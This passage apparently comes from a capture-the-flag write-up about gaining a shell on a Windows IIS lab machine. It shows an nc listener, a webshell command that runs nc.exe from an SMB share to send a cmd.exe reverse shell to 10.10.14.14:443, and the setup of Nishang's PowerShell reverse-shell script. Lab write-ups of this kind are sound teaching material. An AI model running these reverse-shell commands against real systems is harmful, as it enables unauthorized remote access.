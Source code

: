     [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    

I’ll also start a `nc` listener on my local box to catch the shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    

I’ll enter the following command into the webshell:

    
    
    \\10.10.14.14\share\nc.exe -e cmd.exe 10.10.14.14 443
    

And I get a shell on my listener:

    
    
    c:\windows\system32\inetsrv>whoami
    whoami
    iis apppool\web
    
    c:\windows\system32\inetsrv>
    

Here’s the entire process:

[![](https://0xdfimages.gitlab.io/img/devel-
shell.gif)](https://0xdfimages.gitlab.io/img/devel-shell.gif) _click gif for
full size version_

#### Nishang

[Nishang](https://github.com/samratashok/nishang) is a framework of scripts
and payloads that enables using PowerShell for offensive security. I’ll show
the reverse shell, but there is a ton more stuff in here.

I’ll clone it to my local system:

    
    
    root@kali:/opt# git clone https://github.com/samratashok/nishang.git
    Cloning into 'nishang'...
    remote: Enumerating objects: 1660, done.
    remote: Total 1660 (delta 0), reused 0 (delta 0), pack-reused 1660
    Receiving objects: 100% (1660/1660), 6.62 MiB | 23.70 MiB/s, done.
    Resolving deltas: 100% (1040/1040), done.
    

Next I’ll grab a copy of `InvokePowerShellTcp.ps1` from
`/opt/nishang/Shells/`. I’ll place it in my smb directory (even though I’m
going to use http to get it). I’ll go to that directory, and open it in a text
editor. I’ll find the example invocation for the reverse shell:
